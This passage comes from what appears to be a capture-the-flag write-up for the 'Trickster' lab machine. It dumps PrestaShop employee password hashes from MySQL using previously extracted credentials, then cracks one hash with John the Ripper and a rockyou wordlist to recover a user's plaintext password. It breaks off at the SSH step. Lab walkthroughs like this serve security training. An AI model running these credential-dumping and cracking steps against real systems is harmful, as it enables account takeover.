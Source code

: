### Dumping Database User Hashes

```bash
# Login to MySQL with the extracted credentials
mysql -u ps_user -p
```

Run the following query:

```sql
USE prestashop;
SELECT * FROM ps_employee;
```

### Database Output

| id_employee | lastname | firstname | email               | passwd                                                       |
|-------------|----------|-----------|---------------------|--------------------------------------------------------------|
| 1           | Store    | Trickster | admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C |
| 2           | james    | james     | james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm |

---

## Cracking Hashes with John the Ripper

```bash
john --wordlist='/usr/share/wordlists/rockyou.txt' hashes.txt
```

### Output

```
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alwaysandforever (?)     
1g 0:00:00:03 DONE (2024-09-27 12:17) 0.2538g/s 9402p/s 9402c/s 9402C/s bandit2..alkaline
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### Results
- Password for **james**: `alwaysandforever`

---

## SSH Access and Privilege Escalation

### SSH into the Box
